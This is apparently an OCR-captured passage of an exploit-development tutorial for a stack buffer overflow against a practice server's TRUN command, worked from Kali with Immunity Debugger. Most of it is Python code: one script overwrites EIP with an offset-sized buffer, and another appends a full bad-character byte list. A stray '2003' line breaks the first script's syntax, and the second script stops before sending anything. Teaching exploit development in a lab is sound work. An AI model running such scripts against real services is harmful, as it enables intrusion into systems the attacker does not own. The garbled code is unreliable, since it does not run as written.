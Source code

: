## Overwrite the EIP:

#### Kali Linux: 
create python script overwrite.py

```
#!/usr/bin/python

import sys, socket

shellcode = "A" * 2003 + "B" * 4    # 2003 is the "[*] Exact match found at offset number from offset.py"

while True:
    try: 
            s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
            s.connect(('192.168.1.90',9999))                    #change to match the IP and port# of the application you are fuzzing
2003
            s.send(('TRUN /..:/' + shellcode))                     #change TRUN to be the command you are Fuzzing
            s.close()

    except: 
            print "Error connecting to Server."
            sys.exit()
```


#### Windows 10: 
check Immunity Debugger and verify that the EIP is overwritten with 4x B in hex (42424242)
this verifies you can control the EIP 


## Finding Bad Characters:
get badchars variable from: https://web.archive.org/web/20200320175929/http://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/
remove \x00 as it will always be a "bad character" and is used to terminate programs in C. 

create python script badchars.py

```
#!/usr/bin/python

import sys, socket

badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

shellcode = "A" * 2003 + "B" * 4  + badchars  # 2003 is the "[*] Exact match found at offset number from offset.py"
```